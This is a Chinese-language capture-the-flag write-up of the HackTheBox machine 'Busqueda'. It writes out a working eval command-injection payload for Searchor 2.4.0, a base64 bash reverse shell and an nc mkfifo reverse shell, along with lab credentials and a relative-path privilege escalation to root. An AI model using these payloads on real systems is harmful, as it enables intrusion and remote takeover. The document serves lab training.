










Busqueda
难度：Easy
机器作者：kavigihan
审计(Prepared By)：dotguy
日期：2023 年 5 月 6 日 / 文件编号 D23.100.235
说明
简单难度的 Linux 机器，涉及 Python 模块中的命令注入漏洞。利用此漏洞，我们获得了对计算机用户 svc 的访问权限。对系统进一步枚举， 在Git 配置文件中发现凭据，并可以登录本地 Gitea 服务。此外，我们发现特定用户可以使用 root 权限执行系统检查脚本。通过利用此脚本，我们枚举了 anministrator 用户通过 Gitea 账户凭据的 Docker 容器。对 Git 存储库中的源码进一步分析，揭示了一种利用相对路径引用的方法，为我们授予具有 root 权限的 RCE 突破口。
需要的知识
- Web 枚举
- Linux 基础知识
- Python Basics
学习到的知识
- 命令注入
- Python 代码审计
- Docker 基础
信息收集
Nmap
运行 Nmap 扫描主机开放的端口和服务
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.208 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sV 10.10.11.208

扫描结果显示 SSH 运行在其默认端口，并且 Apache Web 服务器正在端口 80 上运行。
HTTP
访问 80 端口后，我们被重定向到域名: searcher.htb。将该域名及对应的 IP 地址添加至 /etc/hosts 配置文件中，以允许我们在浏览器中访问。
echo "10.10.11.208 searcher.htb" | sudo tee -a /etc/hosts

在浏览器中访问 searcher.htb 后，我们会看到“Searcher”应用程序的主页。它似乎是一个搜索引擎聚合器，允许用户在各种搜索引擎上搜索信息。
用户可以选择搜索引擎，输入查询，然后自动重定向或获取搜索结果的 URL。

点击 search 按钮后，网站会提供指定搜索引擎的 URL。

立足点
值得注意的是，网站页脚显示它正在使用 Flask 和 Searchor 版本 2.4.0 。

什么是 Searchor?
Searchor 是一个综合性的 Python 库，它简化了网页抓取、检索任何主题的信息以及创建搜索查询 URL 的过程。
如果我们点击网页页脚中 “Searchor 2.4.0” 上的超链接，我们将被重定向到其 GitHub 存储库，在这里我们可以检查各个发布版本的变更日志。其中提到在 2.4.2 版本中修复了一个优先漏洞。该网站使用的版本是 2.4.0，这意味着它可能存在漏洞。

查看补丁，我们可以看到拉取请求是为了修补搜索功能中存在的命令注入漏洞，该漏洞是由于对未经净化的用户输入使用了 eval 语句而导致的。

我们可以查看具体的 commit，其中显示了 main.py 文件中被替换的 eval 语句。

我们除了利用现成的exploit,也可以在本地计算机上下载 Searchor 2.4.0 模块并分析其代码。
```shell wget https://github.com/ArjunSharda/Searchor/archive/refs/tags/v2.4.0.zip unzip v2.4.0.zip
检查 `main.py` 文件，发现与提交类似，用户输入直接传递给 `eval` 语句，没有任何校验。
```shell
nano Searchor-2.4.0/src/searchor/main.py

search() 函数接受四个参数，我们可以控制其中两个: engine 和 query。
searchor search Google "hackthebox"

在 CLI 工具中，engine 和 query 参数分别对应于第二个和第三个参数。关于命令注入，似乎可以注入两个参数，因为它们直接传递给 eval 语句。但是，在应用程序内，如果尝试将引擎修改为预定义引擎列表中不存在的选项，则会遇到错误。
因此，我们必须重点利用查询参数作为注入点。值得注意的是，eval 语句通常不支持执行多行，尽管有一些技术可以实现这一点。此外，确保我们的有效负载不会破坏 eval 语句的前面部分也至关重要。考虑到所有这些因素，我们可以使用如下所示的有效负载来利用此漏洞并实现命令注入。
') + str(__import__('os').system('id')) #
为了确保 eval 语句剩余部分的执行，我们必须使用 + 运算符单独连接另一行的输出。需要注意的是，末尾的 # 符号充当注释，忽略其后面的任何内容。
然后评估的整个命令将如下所示：
shell url = eval( Engine.<some_engine>.search('') + str(__import__('os').system('id')) #', copy_url={copy}, open_web={open})" )
让我们首先在本地测试有效负载并验证代码注入是否按预期工作。
searchor search Google "')+ str(__import__('os').system'id'))#"

id 命令成功执行并返回，说明我们的注入成功了。为了验证远程主机上的代码执行，我们继续在 Web 应用程序的 query 参数中提交 Payload。
')+ str(__import__('os').system('id'))#

我们以用户 svc 的身份执行代码

为了将其利用到交互式 shell 中，我们首先在本地计算机上的端口 1337 上启动 Netcat 侦听。
nc -nvlp 1337
然后，我们在 Searcher 网站的 query 参数中发送以下 Base64 编码的反向 shell 负载。
')+ str(__import__('os').system('echo
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zNS8xMzM3IDA+JjE=|base64 -d|bash'))#
您可以使用 revshells 等网站生成适合您的 IP 地址的编码有效负载。
我们在 Netcat 监听器上获得了一个反向 shell。

用户标志可以在 /home/svc/user.txt 获取。
cat /home/svc/user.txt
权限提升
通过枚举远程主机上的文件，我们可以识别存储在 /var/www/app/.git/config 文件中的凭证对 cody:jh1usoih2bkjaspwe92 。它还包含对 gitea.searcher.htb 子域的引用。
cat /var/www/app/.git/config

我们可以尝试使用获得的密码 jh1usoih2bkjaspwe92 以 svc 用户身份通过 SSH 登录。
ssh svc@10.10.11.208

回到 gitea.searcher.htb 域，让我们在 /etc/hosts 文件中为其添加一个条目。
echo "10.10.11.208 gitea.searcher.htb" | sudo tee -a /etc/hosts
在浏览器中访问 gitea.searcher.htb 后，我们会看到 Gitea 主页。
什么是 Gitea?
Gitea 是一个自托管、轻量级、开源的
Git服务，提供用于管理Git存储库的 Web 界面。它是一个版本控制服务器，类似于GitHub或GitLab等流行平台，但被设计为轻量级、易于安装且消耗更少的系统资源。

在“Explore”部分下，可以看到 Gitea 应用程序上有 2 个用户，分别是 cody 和 administrator。

我们可以使用之前获得的凭据以用户 cody 身份登录，却发现名为 Searcher_site 的私有存储库，其中包含 Searcher Web 应用程序的源代码。

由于我们没有 andminisrator 用户的密码，因此我们无法检查与该用户关联的私有存储库。尽管如此，如果我们稍后获得密码，记住重新访问这一点是值得的。继续，我们可以检查用户 svc 的 sudo 权限，发现我们可以以 root 身份运行命令 /usr/bin/python3 /opt/scripts/system-checkup.py *
sudo -l

当尝试读取文件 /opt/scripts/system-checkup.py 时，由于 svc 用户权限不足，我们收到 permission denied 错误。 svc 用户只拥有该文件的执行权限，没有读取权限。
ls -l /opt/scripts/system-checkup.py

执行 Python 脚本后，会出现一个显示可用参数的帮助菜单。
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *

检查提供的参数，/opt/scripts/system-checkup.py 脚本似乎允许我们查看现有的 Docker 容器。使用 docker-ps 参数，它会列出所有正在运行的容器。
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps

它类似于 Docker 实用程序的 docker ps 命令的输出。当使用 docker-inspect 参数执行脚本时，使用信息表明它需要两个特定参数： format 和 container name 。
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect

尽管我们知道容器名称，但我们不知道这个格式参数指的是什么。但是，考虑到使用 docker-ps 参数和 docker ps 命令的脚本输出之间的相似性，可以合理地假设脚本中的 docker-inspect 参数利用 Docker 实用程序的 docker inspect 命令。因此，让我们看一下 docker inform 命令的帮助菜单。
我们可以在这里查看docker inspect命令的使用信息。

根据此处提供的信息，Docker 利用 Go 模板使用户能够修改特定命令的输出格式。该网站特别提到了 {{json .}} 格式化模板的用法，该模板以 JSON 格式呈现有关容器的所有信息。因此，我们可以使用 {{json .}} 作为脚本的 docker-inspect 参数所需的格式参数。
为了方便读取 JSON 输出，我们可以使用 jq 将 JSON 输出解析为可读格式。可以使用以下命令安装 jq，但是它已经存在于目标计算机上。
sudo apt-get -y install jq
现在让我们使用 docker-inspect 指定符合格式的参数运行脚本。
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq
我们可以检查一下，发现 Env 部分中硬编码的 Gitea 密码，该部分由环境变量组成。
[** SNIP **]
"Tty": false,
"OpenStdin": false,
"StdinOnce": false,
"Env": [
"USER_UID=115",
"USER_GID=121",
"GITEA__database__DB_TYPE=mysql",
"GITEA__database__HOST=db:3306",
"GITEA__database__NAME=gitea",
"GITEA__database__USER=gitea",
"GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
"USER=git",
"GITEA_CUSTOM=/data/gitea"
],
"Cmd": [
"/bin/s6-svscan",
"/etc/s6"
],
[** SNIP **]
使用获得的密码 yuiu1hoiu4i5ho1uh ，我们可以以 administrator 用户身份登录 Gitea 应用程序。
现在，我们可以枚举上述私有存储库来查找 scripts 存储库，其中包含我们在远程主机的 /opt/scripts 目录中看到的文件。

因此，我们应该检查 system-checkup.py 文件，因为我们能够在远程主机上以 root 权限执行 /opt/scripts/system-checkup.py 文件。在分析代码的过程中，我们发现我们尚未检查的 full-checkup 参数执行了一个名为 full-checkup.sh 的 bash 脚本。

特别有趣的是，system-checkup.py 脚本使用相对路径 ./full-checkup.sh 引用 full-checkup.sh 脚本，而不是使用绝对路径，例如 /opt/scripts/fullcheckup.sh ，在 system-checkup.py 文件中。这表明 system-checkup.py 脚本尝试从执行 system-checkup.py 的目录执行 full-checkup.sh。
从 full-checkup.sh 文件所在的 /opt/scripts/ 目录运行时，system-checkup.py 成功执行。
cd /opt/scripts/
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

我们现在尝试通过从包含我们自己的恶意 full-checkup.sh 脚本的另一个目录执行系统检查脚本来利用对 full-checkup.sh 的相对引用。
因此，让我们创建一个文件 /tmp/full-checkup.sh 并向其中插入反向 shell Payload。
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> 9001 >/tmp/f" > /tmp/full-checkup.sh
然后我们赋予它执行权限
chmod +x /tmp/full-checkup.sh
接下来，我们在本地计算机的端口 9001 上启动 Netcat 侦听器以接收反向 shell。
nc -nvlp 9001
最后，我们在远程主机上的 /tmp 目录中运行以下命令来触发反向 shell。
cd /tmp
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
在远程主机上运行上述命令后，我们会在侦听器端口 9001 上以 root 用户身份收到一个 shell。

root flag 在 /root/root.txt 获取。
cat /root/root.txt